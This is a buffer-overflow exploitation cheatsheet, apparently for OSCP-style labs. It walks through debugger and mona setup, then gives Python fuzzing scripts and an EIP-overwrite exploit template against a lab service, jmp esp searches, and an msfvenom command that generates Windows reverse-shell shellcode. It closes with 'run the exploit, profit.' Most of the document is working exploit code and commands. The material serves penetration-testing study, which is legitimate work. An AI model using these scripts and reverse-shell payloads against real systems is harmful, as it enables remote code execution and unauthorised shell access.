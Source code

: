 # My methodology

## Setup

### Immunity Debugger

Always run Immunity Debugger as Administrator if you can.

There are generally two ways to use Immunity Debugger to debug an application:

1. Using `File -> Attach` to attack the debugger to the running process.
2. Or by opening Immunity Debugger, and then using `File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

### Mona Setup

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: [:download:\`mona.py &lt;../\_static/files/mona.py&gt;\`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)The latest version can be downloaded here: [https://github.com/corelan/mona](https://github.com/corelan/mona)The manual can be found here: [https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

Copy the mona.py file into the PyCommands directory of Immunity Debugger \(usually located at C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands\).

In Immunity Debugger, type the following to set a working directory for mona.

```bash
!mona config -set workingfolder c:\mona\%p
```

## Spiking/Fuzzing

### Raw sockets

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 2
buffer_step = 100
buffer_size_max = 3000

buffer = ""

for i in range(0,buffer_size_max, buffer_step):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("HTER "+buffer[:i]+"\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Check that the EIP register has been overwritten by A's \(\x41\). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

### Boofuzz

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")
s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding and controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "10.10.64.104"
port = 1337

offset = 1978

buffer  = b""
buffer += b"OVERFLOW1 " # prefix
buffer += b"1" * offset # overflow
buffer += b"2222" # return
buffer += b"\x90"*16 # padding
buffer += b"" # payload
buffer += b"" # postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## Finding bad characters

`!mona bytearray -b "\x00"`

```python
#!/usr/bin/env python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```bash
!mona jmp -r esp
!mona jmp -r esp -cpb "\x00"
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```bash
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

